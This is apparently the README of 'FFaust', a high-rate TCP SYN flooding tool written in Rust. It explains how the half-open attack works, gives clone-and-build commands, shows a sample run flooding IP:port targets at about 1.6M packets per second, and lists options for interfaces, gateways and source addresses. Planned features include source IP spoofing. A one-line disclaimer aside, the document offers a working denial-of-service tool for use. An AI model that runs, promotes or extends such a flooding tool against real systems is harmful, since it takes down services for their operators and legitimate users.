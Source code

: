 # MLPS "FFaust"

(Multiple Launch Packet System)

```
   ____       ________   ____                 __ 
  / __ \_  __/ __/ __/  / __/___ ___  _______/ /_
 / / / / |/_/ /_/ /_   / /_/ __ `/ / / / ___/ __/
/ /_/ />  </ __/ __/  / __/ /_/ / /_/ (__  ) /_  
\____/_/|_/_/ /_/    /_/  \__,_/\__,_/____/\__/  
```

High-performance TCP SYN flooding tool. `ffaust` manipulates packets directly on Ethernet layer and achieves up to 2.5M pps (packets per second) on a single machine.

## Disclaimer

MLPS "FFaust" is a stress testing tool and it is not to be used on targets that you do not have explicit consent to attack.

## Attack vector

A SYN flood attack is a common form of a denial of service attack in which an attacker sends a sequence of SYN requests to the target system (can be a router, firewall, Intrusion Prevention Systems (IPS), etc.) in order to consume its resources, preventing legitimate clients from establishing a regular connection. This DOS attack exhausts a server's memory & CPU and not necessarily bandwidth (which other attacks like ICMP/Ping Flooding do).

At a high level, how this works is that we craft our own TCP SYN packets and then completely flood a server with them. When we send a SYN packet, the server will respond with a SYN-ACK and allocate some memory in the kernel buffer in an attempt to set up a new connection with us (at this point the connection is "half open" which is why the SYN Flooding Attack is also known as the "Half Open Attack"). The half open connections can be seen on the server side with netstat -nt4 | grep "SYN_RECV". By sending multiple SYNs per second, we cantry to get the server to exhaust it's memory and thus make it to be unable to serve legitimate clients.

## Install

To compile from source:

```shell
git clone https://github.com/0xffiber/ffaust.git
cd ffaust
cargo build --release
```

## Usage

Run the tool:

```shell
$ target/release/ffaust 169.172.1.1:80 10.0.1.5:443
   ____       ________   ____                 __
  / __ \_  __/ __/ __/  / __/___ ___  _______/ /_
 / / / / |/_/ /_/ /_   / /_/ __ `/ / / / ___/ __/
/ /_/ />  </ __/ __/  / __/ /_/ / /_/ (__  ) /_
\____/_/|_/_/ /_/    /_/  \__,_/\__,_/____/\__/

Preparing config... DONE
Source:
  iface eth0
  inet 10.0.0.6
  gw 10.0.0.1
  ether 00:00:00:9a:5f:55
  dest 12:34:56:00:00:00

==> 1s sent: 1,636,753 (1,636,753 pps) traffic: 103.02 MiB (103.02 MiB/s)
==> 2s sent: 3,333,556 (1,666,778 pps) traffic: 209.82 MiB (104.91 MiB/s)
==> 3s sent: 5,012,894 (1,670,964 pps) traffic: 315.52 MiB (105.17 MiB/s)
==> 4s sent: 6,672,925 (1,668,231 pps) traffic: 420.01 MiB (105.00 MiB/s)
==> 5s sent: 8,397,134 (1,679,426 pps) traffic: 528.54 MiB (105.71 MiB/s)
```

Full list of options:

```shell
ffaust 0.1.0

USAGE:
    ffaust [OPTIONS] [TARGET]...

ARGS:
    <TARGET>...    ip:port pair to stress out

OPTIONS:
    -g, --gateway-ip <GATEWAY_IP>      Specify gateway IP address
    -G, --gateway-mac <GATEWAY_MAC>    Specify gateway MAC address
    -G, --gateway-mac <GATEWAY_MAC>    Specify gateway MAC address
    -h, --help                         Print help information
    -i, --interface <INTERFACE>        Specify network interface to use
    -s, --source-port <SOURCE_PORT>    Source port(s) for packets
    -S, --source-ip <SOURCE_IP>        Source address(es) for packets
    -V, --version                      Print version information
```

## Implementation Notes

The tool makes an attempt to identify default interface to run the attack. If the default one could not be detected, please make sure to pass interface name with arguments.

In you have multiple interfaces with external connectivity, you can specify all of them (comma-separated).

Destination MAC is resolved once before launching the attack (using ARP protocol).

Full ethernet packet for each (source -> destination) pair is generated only once. Each of the following packets is created by mutating only a few bytes in the payload (and recomputing TCP header checksum).

## TODO

The tool is under active development:

- [ ] Advanced configuration for interface(s), IP ranges, etc (actually use it)
- [ ] Support source IP spoofing (with flag)
- [ ] Run multiple threads (test if this is going to be necessary againsts single IP address)
- [ ] Settings for number of worker threads & total execution time
- [ ] Option to read config from stdin, resolve for hostnames
